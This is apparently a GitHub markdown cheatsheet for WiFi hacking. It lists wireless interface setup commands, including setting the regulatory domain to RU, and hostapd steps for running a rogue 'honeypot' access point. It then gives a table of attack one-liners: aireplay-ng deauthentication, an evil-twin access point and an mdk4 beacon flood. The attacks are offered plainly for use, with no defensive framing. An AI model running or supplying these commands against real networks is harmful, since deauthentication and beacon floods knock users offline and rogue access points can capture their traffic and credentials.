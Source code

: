 # W! hack Cheetsheat
<br />

## Set Up environment
<br />

|Purpose|Command|
|----|----|
|lsusb|List all usb devices attached to machine|
|ethtool -i {interface} | Get detailed information about interface|
|iwconfig | View all WiFi interfaces on system |
|iw phy| View information about an interfaces and its capabilities|
|iw reg get|Check the regulatory domain|
|iw reg set {region}|Set reg domain to RU |
|iw dev {interface} set channel {number}|Setting channel |
|iwconfig {interface} essid {ssid} | Connect to specific SSID|

<br />
<br />

<h2>
<b>Configure hostapd service to deploy Honey Pot</b></h2>


```
## To configure hostapd for WiFi Honeypot firstly we need to install its

    sudo apt install hostapd

## Therefore we need to create configuration file

    touch /etc/hostapd/hostapd.conf

## hostapd.conf content is ...

#  interface={interface}
#  driver=nl80211
#  ssid={ssid}
#  bssid={mac_addr}
#  channel={channel}

# After that just start hostapd service

    systemctl start hostapd.service
```

<br />
<br />
<br />

## Attacks

|Type of attack|Command|
|---------------|-------------|
|Deathentication Attack|aireplay-ng -0 {count} -a {bssid} {interface} -c {sta_mac}|
|WiFi HoneyPot|hostapd {config_file}|
|Beacon flood|mdk4 {interface} b|


<br />
